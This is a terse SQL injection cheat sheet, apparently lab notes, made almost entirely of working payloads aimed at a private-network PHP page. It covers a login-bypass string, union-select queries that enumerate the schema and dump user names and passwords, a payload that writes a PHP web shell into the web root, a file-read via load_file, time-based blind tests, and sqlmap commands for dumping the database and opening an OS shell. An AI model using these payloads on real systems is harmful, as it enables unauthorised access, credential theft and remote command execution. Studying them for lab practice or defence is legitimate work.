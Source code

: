 SQL Injection:
;# - terminates the command

username: hacker' or 1=1 limit 1;#

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,@@version,6
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,user(),6
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'

http://10.11.1.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users

http://10.11.1.35/comment.php?id=738 union select 1,2,name,4,password,6 FROM users




http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,load_file('c:/windows/system32/drivers/etc/hosts'),6

http://10.11.1.35/comment.php?id=738 -sleep(5)

http://10.11.1.35/comment.php?id=738-IF(MID(@@version,1,1) = '5', sleep(5),0)

Use tamper data for sql injection in port parameters.

tool for sql injection:
sqlmap

sqlmap -u http://10.11.1.35 --crawl=1
sqlmap -u http://10.11.1.35/comment.php?id=735 --dbms=mysql --dump --threads=5

sqlmap -u http://10.11.1.35/comment.php?id=735 --dbms=mysql --os-shell
